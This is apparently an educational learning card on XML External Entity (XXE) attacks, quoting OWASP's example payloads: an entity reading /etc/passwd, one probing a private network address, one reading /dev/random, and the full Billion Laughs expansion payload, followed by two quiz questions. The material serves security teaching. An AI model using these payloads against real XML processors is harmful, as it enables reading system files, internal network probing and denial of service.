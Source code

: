 ```yaml
---
author: lizTheDeveloper
type: normal
category: hack
links:
  - >-
    [OWASP Top
    Ten](https://owasp.org/www-project-top-ten/){website}
  - >-
    [Billion Laughs
    Attack](https://en.wikipedia.org/wiki/Billion_laughs_attack){website}
  - >-
    [Security Briefs - XML Denial of Service Attacks and
    Defenses](https://msdn.microsoft.com/en-us/magazine/ee335713.aspx){website}
  - >-
    [SAML Security XML External Entity
    Attack](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html){website}
  - >-
    [Detecting and exploiting XXE in SAML
    Interfaces](https://web-in-security.blogspot.com/2014/11/detecting-and-exploiting-xxe-in-saml.html){website}
  - '[CVE-611](https://cwe.mitre.org/data/definitions/611.html){website}'
---
```


# eXternal XML Entities


---

## Content

OWASP describes XXE as Xternal XML Entities, which is a vulnerability vector in XML documents that allows them to embed other documents, including local system files, in XML documents. If these processors run or execute these files with elevated permissions, attackers can inject malicious instructions in their XML files.

These examples from *OWASP's Top Ten* list show how the data can be configured to execute external scripts:

**Scenario #1**: The attacker attempts to extract data from the
server:

```plain-text
<?xml version="1.0"
 encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM
 "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

**Scenario #2**: An attacker probes the server's private network by
changing the above ENTITY line to:

```plain-text
<!ENTITY xxe
SYSTEM "https://192.168.1.1/private" >]>
```

**Scenario #3**: An attacker attempts a denial-of-service attack by
including a potentially endless file:

```plain-text
<!ENTITY xxe
SYSTEM "file:///dev/random" >]>
```

Here's an example of this attack that was a widespread problem due to it's simplicity, called the **Billion Laughs Attack**:

```plain-text
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1
 "&lol;&lol;&lol;&lol;&lol;
  &lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2
 "&lol1;&lol1;&lol1;&lol1;&lol1;
 &lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3
 "&lol2;&lol2;&lol2;&lol2;&lol2;
 &lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4
 "&lol3;&lol3;&lol3;&lol3;&lol3;
 &lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5
 "&lol4;&lol4;&lol4;&lol4;&lol4;
 &lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6
 "&lol5;&lol5;&lol5;&lol5;&lol5;
 &lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7
 "&lol6;&lol6;&lol6;&lol6;&lol6;
 &lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8
 "&lol7;&lol7;&lol7;&lol7;&lol7;
 &lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9
 "&lol8;&lol8;&lol8;&lol8;&lol8;
 &lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

From Wikipedia:

> When an XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually contain 10^9 = a billion "lol"s, taking up almost 3 gigabytes of memory.


---

## Practice

An XXE attack affects what components of an application?
???

- XML Processors
- HTTP Endpoints
- Network Firewall
- HTML DOM


---

## Revision

An XXE attack comes from exploiting what?
???

- External Entities
- Unvalidated Input
- Untested Code
- Malformed Requests
 
